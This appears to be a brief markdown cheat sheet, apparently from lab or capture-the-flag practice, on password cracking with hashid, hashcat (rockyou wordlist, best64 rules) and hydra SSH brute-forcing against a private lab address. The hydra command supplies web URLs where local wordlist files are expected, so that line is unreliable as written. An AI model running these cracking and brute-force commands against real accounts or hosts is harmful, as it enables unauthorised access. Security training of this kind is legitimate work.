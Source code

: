 # Password Cracking

### Hashcat

* Finding out hash type : `hashid -m 'Gb8i4mVVfY8pCH3rP0rPWK5RVeaeUtz33iXsYdgTnPZg1QzrQ0ZpIuPv4prod9SIfP8n'`

* Cracking the *hash* with wordlist *rockyou.txt* : `hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt --force`

* Cracking the *hash* with best64 rules of a *password* : `hashcat -m 0 hash password --rules /usr/share/hashcat/rules/best64.rule --force`


### Brute-forcing with hydra:

`hydra -s 22 -L http://192.168.43.224/0x0856BF/good_luck/which_one_lol.txt -P http://192.168.43.224/0x0856BF/this_folder_contains_the_password/Pass.txt ssh://192.168.43.224`

(use -l if u have single username or -p for single password)



